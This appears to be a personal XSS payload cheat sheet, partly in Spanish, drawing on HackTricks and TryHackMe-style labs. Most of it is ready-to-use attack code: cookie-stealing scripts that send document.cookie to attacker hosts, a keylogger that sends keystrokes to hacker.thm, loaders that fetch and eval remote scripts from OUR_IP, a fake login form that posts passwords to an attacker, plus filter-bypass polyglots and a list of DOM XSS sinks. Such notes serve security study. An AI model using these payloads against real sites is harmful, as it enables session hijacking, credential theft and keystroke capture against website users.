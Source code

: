 ### Hacktricks:

    <img src=x onerror=alert(PAYLOAD)>

#### steal cookie:

A


    <script>fetch('http://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
B

    document.location='http://OUR_IP/index.php?c='+document.cookie;
C

    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
D

    new Audio().src='http://OUR_IP/index.php?c='+document.cookie;



#### keylogger
        <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


#### Quebrar un código JS que recibe el imput
        ';alert('THM');//

#### No HTML inject and script clean:
        <sSCRIPTcript> </sSCRIPTcript>

#### Polyglots:

        jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('porota') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('porota')//>\x3e

#### Probar si se conecta a otro servidor:
A

        <script src=http://OUR_IP></script>
B

        '><script src=http://OUR_IP></script>
C

        "><script src=http://OUR_IP></script>
D

        javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
E

        <script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
F

        <script>$.getScript("http://OUR_IP")</script>


fake form

document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');


####################### DOM XSS
Las dom based no hacen transacciones con el back-end, quedan enteramente del lado del cliente. Una buena forma de probarlas es ver si un input que se muestra en la pantalla
no genera una request.
##### armado de payloads:
stored DOM xss:
<><img src=1 onerror=alert(1)>

window.location = nos permite construir un link para redireccionar a la victima a un sitio vulnerable.
innerHTML = permite agrergar un elemento al DOM, no permite agrergar scripts directamente ni svgs, pero podemos utilizar una etiqueta html para ingresar js como:<img src=1 onerror=alert(document.domain)>
eval()= 
###DOM Y JQUERY
attr()=permite modificar un elemento del dom. Podríamos aprovecharnos con un codigo como este: javascript:alert(document.domain)
$(): función selectora, nos permite inyectar objetos en el DOM. Podemos explotarlo creando un Iframe <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">


Sinks más comunes para dom xss:
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

jquery:
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()







